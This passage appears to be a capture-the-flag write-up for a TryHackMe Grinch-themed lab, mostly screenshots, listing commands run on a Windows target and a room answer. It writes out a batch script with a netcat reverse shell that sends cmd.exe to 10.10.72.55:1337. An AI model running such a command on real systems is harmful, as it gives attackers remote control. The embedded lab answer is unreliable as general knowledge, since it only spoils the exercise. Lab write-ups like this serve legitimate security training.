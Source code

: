 -----------------------------------<br>
- Navigated to <code>THM Attackbox</code> virtual machine.<br>
- Executed <code>whoami</code>.<br>
- Navigated to <code>c:\Users\thegrinch\Documents</code>.<br>
- Executed <code>type flag.txt</code>.<br>
- Executed <code>type Schedule.txt</code>.</p>

<br>

![image](https://github.com/user-attachments/assets/db433eca-4470-44d7-bb3d-7a6a408ebb35)


<br>

![image](https://github.com/user-attachments/assets/dba0f626-8ecd-4921-b665-a014f1f6574e)


<br>

![image](https://github.com/user-attachments/assets/1600e8f8-8083-4b47-889b-3b77d575eb78)



<br>

<code>@echo off</code><br>
<code>C:\Users\McSkidy\Downloads\nc.exe -nv 10.10.72.55 1337 -e cmd.exe</code><br>

<br>

![image](https://github.com/user-attachments/assets/aa991830-993d-487b-9f24-10a349164011)

<br>

![image](https://github.com/user-attachments/assets/06731c3f-f490-4f05-88d6-8bcb86f71ebe)



<br>

![image](https://github.com/user-attachments/assets/5243f622-8bd7-40e9-b1a9-ef009cc47818)

<br>

![image](https://github.com/user-attachments/assets/a95c32ef-eac2-4843-a6a2-6195fd3ea708)

<br>

![image](https://github.com/user-attachments/assets/b5242ba3-4a26-4f2a-9701-5affc5b8eb9e)

<br>

![image](https://github.com/user-attachments/assets/06a91cea-effa-4629-b79f-f3181193a96f)

<br>

![image](https://github.com/user-attachments/assets/f38cc281-c544-47f8-b3b5-000b1e8f18ba)

<br>


1.7. The Grinch forgot to delete a file where he kept notes about his schedule! Where can we find him at 5:30?<br>
<code>jazzercize</code><br>

<br>

![image](https://github.com/user-attachments/assets/72eb6bde-91c7-4c2d-be87-6993646dd6df)

<br>
<br>


